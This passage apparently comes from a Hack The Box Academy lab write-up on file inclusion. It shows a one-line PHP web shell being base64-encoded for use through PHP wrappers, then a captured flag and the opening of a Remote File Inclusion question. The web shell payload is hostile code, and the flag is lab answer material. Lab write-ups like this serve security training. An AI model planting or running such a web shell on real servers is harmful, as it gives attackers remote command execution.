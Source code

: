 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

![Firefox - PHP Wrappers 2](./assets/screenshots/file_inclusion_php_wrappers_2.png)

![Firefox - PHP Wrappers 3](./assets/screenshots/file_inclusion_php_wrappers_3.png)

![Firefox - PHP Wrappers 4](./assets/screenshots/file_inclusion_php_wrappers_4.png)

**Answer**

```
HTB{d!$46l3_r3m0t3_url_!nclud3} 
```

## Remote File Inclusion (RFI)

### Questions

#### Question #04

**Question**

Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in `/`.
